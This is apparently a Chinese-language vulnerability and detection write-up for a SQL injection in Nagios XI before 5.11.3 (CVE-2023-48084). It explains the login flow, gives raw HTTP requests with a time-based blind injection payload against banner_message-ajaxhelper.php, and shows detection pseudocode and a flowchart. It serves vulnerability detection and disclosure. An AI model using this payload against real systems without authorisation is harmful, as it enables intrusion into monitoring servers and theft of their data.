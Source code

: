 # Nagios XI < 5.11.3 SQL 注入漏洞（CVE-2023-48084）

## 漏洞简介
Nagios XI 5.11.3 之前版本存在 SQL 注入漏洞，攻击者可通过 bulk modification 工具的相关接口注入恶意 SQL 语句，进而获取敏感信息或进行未授权操作。

## 影响范围
- 受影响产品：Nagios XI < 5.11.3
- CPE: `cpe:2.3:a:nagios:nagios_xi:*:*:*:*:*:*:*:*`

## 漏洞原理
后端接口未对部分参数进行有效过滤，导致攻击者可通过构造特殊参数注入 SQL 语句，利用 time-based 盲注等方式实现漏洞利用。

## 利用方式与攻击流程
1. 攻击者访问登录页面获取 `nsp` 随机值。
2. 使用合法账号登录系统，获取认证 Cookie。
3. 构造带有 SQL 注入 payload 的 GET 请求，利用 time-based 注入（如 sleep(5)）判断漏洞是否存在。

## 探测原理与流程
### 请求包示例
1. 获取登录页面，提取 `nsp`：
```http
GET /nagiosxi/login.php HTTP/1.1
Host: target.com
```
2. 登录获取 Cookie：
```http
POST /nagiosxi/login.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

nsp=xxx&page=auth&debug=&pageopt=login&username=admin&password=admin&loginButton=
```
3. 注入检测：
```http
GET /nagiosxi/index.php/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=(SELECT+CASE+WHEN+1=1+THEN+sleep(5)+ELSE+sleep(0)+END+) HTTP/1.1
Host: target.com
Cookie: [登录后的 Cookie]
```

### 响应与判定逻辑
- 第 3 步请求响应时间大于等于 5 秒。
- 响应体包含 `Home Dashboard</a>`。

### 伪代码
```python
# 步骤1: 获取 nsp
nsp = extract_nsp(get('/nagiosxi/login.php'))
# 步骤2: 登录
session = login('/nagiosxi/login.php', nsp, username, password)
# 步骤3: 注入检测
start = now()
resp = session.get('/nagiosxi/index.php/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=(SELECT CASE WHEN 1=1 THEN sleep(5) ELSE sleep(0) END)')
if resp.elapsed >= 5 and 'Home Dashboard</a>' in resp.text:
    print('存在 SQL 注入漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[获取 nsp]
    B --> C[登录获取 Cookie]
    C --> D[构造注入请求]
    D --> E[发送 GET 请求]
    E --> F{响应时间 >= 5s 且包含 Home Dashboard?}
    F -- 否 --> G[不存在漏洞]
    F -- 是 --> H[存在 SQL 注入漏洞]
```

## 参考链接
- [漏洞分析与利用（bucketcat）](https://github.com/bucketcat/CVE-2023-48084)
- [漏洞分析与利用（Hamibubu）](https://github.com/Hamibubu/CVE-2023-48084)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-48084)
- [PoC-in-GitHub](https://github.com/nomi-sec/PoC-in-GitHub) 